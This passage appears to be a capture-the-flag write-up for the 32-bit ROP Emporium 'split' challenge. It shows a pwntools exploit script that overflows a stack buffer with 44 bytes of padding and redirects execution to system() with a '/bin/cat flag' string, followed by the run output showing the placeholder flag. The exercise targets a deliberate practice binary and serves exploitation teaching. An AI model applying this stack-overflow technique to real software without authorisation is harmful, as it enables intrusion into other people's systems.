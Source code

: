 ```

=====================================================================
call <system@plt> <------ eip
# This gadget makes a system call based on the argument on the stack
=====================================================================
```

### Exploit

```python
from pwn import *

padding = b"a"*44
bincat_addr = p32(0x804a030)
system_addr = p32(0x0804861a)

payload = padding + system_addr + bincat_addr

p = process('./split32')
p.sendline(payload) 
p.interactive()
```

* Let's run the exploit.

```
$ python exploit.py 
[+] Starting local process './split32': pid 16511
[*] Switching to interactive mode
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
